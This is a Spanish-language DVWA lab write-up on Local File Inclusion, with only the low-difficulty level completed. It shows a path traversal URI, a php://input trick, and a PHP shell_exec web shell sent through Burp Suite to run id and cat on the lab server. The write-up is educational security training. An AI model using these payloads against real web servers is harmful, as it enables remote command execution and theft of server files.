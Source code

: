 # LFI

Local File Inclusion (LFI) es una vulnerabilidad que permite a un atacante leer archivos arbitrarios en el servidor. Esto puede ser utilizado para leer archivos sensibles como `config.php` o para leer el código fuente de la aplicación.

## Bajo

Sabiendo que el archivo `fi.php` existe, podemos intentar leerlo con la siguiente URI:
```
http://localhost/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

![Path Traversal](FI/assets/primerPaso.png)
Como se puede observar en la imágen, el archivo `fi.php` es leído y mostrado en la página aunque no hemos conseguido leer las 5 citas que contiene.

Para intetar leer el archivo completo, podemos intentar ejecutar commandos en el servidor, para ello nos ayudaremos de Burp Suite, que nos permitirá modificar la petición que se envía al servidor.

Como primera prueba realizamos una petición GET a la URI para obtener información sobre el servidor:

> **Nota:** Burp Suite debe tener la opcion `Intercept is on` activada para poder modificar las peticiones.

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=id
```

una vez interceptada la petición, podemos modificarla para que se envíe un comando al servidor, para ello añadimmos el siguiente comando al final de la petición y a continuación pulsamos `Forward`:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![intercept](FI/assets/intercept.png)

como podemos observar en la imágen, el servidor nos devuelve la información del usuario que está ejecutando el servidor web.

![forward](FI/assets/forward.png)

Una vez comprobado podemos ejecutar comandos en el servidor, podemos intentar leer el archivo `fi.php` de la misma manera:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://input&cmd=cat%20/var/www/html/DVWA/hackable/flags/fi.php
```

![challenge](FI/assets/challenge.png)

## Medio

## Alto

## Imposible


## referencias

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [HTB Academy](https://academy.hackthebox.com/module/77/section/725)
